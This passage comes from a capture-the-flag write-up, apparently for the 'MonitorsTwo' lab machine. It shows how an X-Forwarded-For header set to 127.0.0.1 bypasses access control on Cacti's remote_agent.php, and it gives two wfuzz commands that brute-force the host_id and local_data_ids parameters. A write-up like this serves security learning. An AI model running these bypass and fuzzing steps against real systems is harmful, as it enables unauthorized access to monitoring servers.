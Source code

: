 It says we are not authorized to use the service. Therefore, we try adding `X-Forwarded-For` in the header with the IP `127.0.0.1`.

![Texto alternativo](/assets/monitorstwo/Screenshot%202025-02-27%20160130.jpg)

After forwarding the request, this appears:

![Texto alternativo](/assets/monitorstwo/Screenshot%202025-02-27%20160104.jpg)

We fuzz the host_id parameter to identify valid values using wfuzz:

```bash
wfuzz -u 'http://10.10.11.211/remote_agent.php?action=polldata&local_data_ids[0]=1&host_id=FUZZ&poller_id=1' -H "X-Forwarded-For: 127.0.0.1" -z range,1-100 --hh 2
```

![Texto alternativo](/assets/monitorstwo/Screenshot%202025-02-27%20160433.jpg)

We get one result. Then, we fuzz the local_data_ids parameter:

```bash
wfuzz -u 'http://10.10.11.211/remote_agent.php?action=polldata&local_data_ids[0]=FUZZ&host_id=1&poller_id=1' -H "X-Forwarded-For: 127.0.0.1" -z range,1-100 --hh 2
```
